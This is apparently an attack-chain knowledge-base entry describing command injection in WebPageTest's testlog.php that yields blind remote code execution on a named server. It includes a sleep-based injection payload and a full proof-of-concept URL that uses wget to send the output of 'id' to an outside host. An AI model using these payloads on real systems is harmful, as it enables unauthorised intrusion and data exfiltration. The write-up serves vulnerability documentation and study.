

---
tags:
  - command-injection
  - rce
  - blind-rce
  - php
  - web
  - aws
type: attack_chain
tools:
  - '[[tools/WebPageTest]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
  - AWS
  - Linux
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Review-WebPageTest-Source-Code-for-Vulnerabilities]]'
  - '[[procedures/Test-Command-Injection-with-Sleep-Delay]]'
  - '[[procedures/Exfiltrate-Server-Information-via-Wget]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Unix Shell]]'
updated_at: '2025-12-14T17:23:41.158Z'
description: >-
  A multi-stage attack exploiting a command injection vulnerability in the
  WebPageTest application's testlog.php to achieve blind remote code execution
  on an AWS-hosted server.
skill_level: intermediate
impact_level: high
id: bad7f0ab-6bd0-4202-aa3e-8bce8fe0c5ec
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Unix Shell]]'
---
# Command Injection in WebPageTest Leading to Blind Remote Code Execution

Multi-stage attack chain demonstrating a complete attack workflow exploiting insufficient input sanitization in the WebPageTest application to achieve blind remote code execution.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/WebPageTest]]
- Web browser for accessing the application

### Target Environment

- Web application hosted on AWS EC2
- PHP-based service with Apache web server
- Open access to http://wpt.ec2.shopify.com/

### Initial Access Requirements

- Public internet access to the target URL
- No credentials required
- Ability to review source code on GitHub

## Detailed Attack Procedures

### Step 1: Source Code Review
procedure: [[procedures/Review-WebPageTest-Source-Code-for-Vulnerabilities]]

**Objective**: Identify the command injection vulnerability in the testlog.php file by analyzing the handling of the 'filter' parameter.

**Instructions**: Examine the source code on GitHub, focusing on how the $filter variable is processed and used in the exec() function.

**Expected Output**: Identification of weak sanitization allowing shell metacharacter bypass.

**Success Indicators**:
- Vulnerability confirmed in code
- Bypass method noted (e.g., $() for command substitution)

### Step 2: Test Command Injection
procedure: [[procedures/Test-Command-Injection-with-Sleep-Delay]]

**Objective**: Verify the vulnerability by injecting a sleep command to observe a delay in response.

**Instructions**: Access the target URL and inject $(`[[commands/sleep-20-injection]]`) into the filter field, then submit to measure delay.

```bash
# Payload in filter: $(`sleep 20`)
```

**Expected Output**: 20-second delay in page load.

**Success Indicators**:
- Observable delay confirming execution
- No errors in application response

### Step 3: Exfiltrate Information
procedure: [[procedures/Exfiltrate-Server-Information-via-Wget]]

**Objective**: Achieve blind RCE by exfiltrating server details using wget to an attacker-controlled server.

**Instructions**: Craft a URL with the injection payload using [[commands/wget-exfiltrate-id]] to download the output of 'id' to your server.

```bash
# Example POC URL: http://wpt.ec2.shopify.com/testlog.php?days=1&filter=%24%28%60wget%20sandbox.prakharprasad.com%2F%24%28id%29%60%29
```

**Expected Output**: HTTP request logged on attacker's server with 'id' output (e.g., uid=33(www-data)).

**Success Indicators**:
- Exfiltrated data received
- Confirmation of server user context (www-data)

## Attack Chain Summary

### Key Achievements

1. Identified command injection via source code review
2. Proven RCE with delay-based testing
3. Exfiltrated sensitive server information for full compromise potential

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Unix Shell]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
